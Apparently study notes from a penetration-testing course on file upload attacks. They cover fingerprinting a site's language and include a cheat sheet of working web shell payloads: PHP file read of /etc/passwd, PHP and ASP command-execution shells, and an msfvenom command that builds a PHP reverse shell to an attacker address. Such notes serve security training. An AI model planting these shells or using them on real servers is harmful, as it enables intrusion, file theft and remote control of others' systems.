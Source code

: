 # File upload attacks notes

One easy method to determine what language runs the web application is to visit the /index.ext page, where we would swap out ext with various common web extensions, like php, asp, aspx, among others, to see whether any of them exist.

We can use a fuzzer to identify this as well

To test if we can abuse php site with a webshell we can save a file with this to upload:

```
<?php echo "Hello HTB";?>
```

## Cheat Sheets

|Web Shell 	|Description|
|:----|:----|
|<?php file_get_contents('/etc/passwd'); ?> 	|Basic PHP File Read|
|<?php system('hostname'); ?> 	|Basic PHP Command Execution|
|<?php system($_REQUEST['cmd']); ?> |	Basic PHP Web Shell|
|<% eval request('cmd') %> |	Basic ASP Web Shell|
|msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php 	|Generate PHP reverse shell|
|PHP Web Shell| 	PHP Web Shell|
|PHP Reverse Shell |	PHP Reverse Shell|
|Web/Reverse Shells |	List of Web Shells and Reverse Shells|
